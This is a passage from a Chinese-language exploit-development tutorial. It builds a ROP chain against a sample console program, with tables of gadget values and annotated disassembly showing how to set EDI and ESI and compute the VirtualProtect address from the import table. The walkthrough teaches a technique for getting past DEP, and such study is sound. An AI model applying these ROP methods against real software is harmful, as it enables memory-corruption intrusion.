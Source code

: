 * 给`EDI`和`ESI`赋值，后面会用到

| ROP值 | 说明 |
| ---- | ---- |
| 84164000 | 第二个RET地址，赋值偏移给ESI |
| 00000000 | 给EDI赋值为0，后面会比较EDI |
| 80A0FFFF | 给ESI赋值，将ESI设置为一个负数偏移，后面通过加法获取到VirtualProtect的地址(这个偏移是计算得来的) |

 ```assembly
00401684      | 5F                    | pop edi             ; EDI = 0
00401685      | 5E                    | pop esi             ; ESI = 0xFFFFA080
00401686      | C3                    | ret                 ; 跳到下一个构造好的ROP链
 ```

* 通过`EAX`获取导入表中函数的地址，因为没有`MOV xxx,[EAX]`这样的指令，这里使用的是`mov ecx, dword ptr [eax + 8]`

| ROP值 | 说明 |
| ---- | ---- |
| 9B134000 | 第三个RET地址，获取 VirtualProtect 地址 |
| 00000000 | 填充物 |
| 00000000 | 填充物 |
| 00000000 | 填充物 |
| 00000000 | 填充物 |

 ```assembly
0040139B      | 8B 48 08              | mov ecx,dword ptr ds:[eax+8]        ; eax+8 = 0x402000, 获取到导入表中的函数地址
0040139E      | 03 CE                 | add ecx,esi                         ; 将函数地址加上偏移得到VirtualProtect地址
004013A0      | 3B F9                 | cmp edi,ecx
004013A2      | 72 0A                 | jb consoleapplication1.4013AE       ; edi为0，所以直接跳转
004013A4      | 42                    | inc edx
004013A5      | 83 C0 28              | add eax,28
004013A8      | 3B D3                 | cmp edx,ebx
004013AA      | 72 E8                 | jb consoleapplication1.401394
004013AC      | 33 C0                 | xor eax,eax
004013AE      | 5F                    | pop edi                             ; 从上方跳转至此
004013AF      | 5E                    | pop esi
004013B0      | 5B                    | pop ebx
004013B1      | 5D                    | pop ebp
004013B2      | C3                    | ret                                 ; 跳到下一个构造好的ROP链
 ```

这里的`ESI`为偏移，而这个偏移需要根据选择的函数和系统的不同而改变的  

### 5.3 转换 ECX 到 EAX

通过上面的方法，`ECX`已经为`VirtualProtect`的地址了，但这里没有`CALL ECX`这样的指令，所以还需要将`ECX`转换到其他寄存器上去。因为这里有`CALL EAX`，所以我这里选择的是`MOV EAX, ECX`
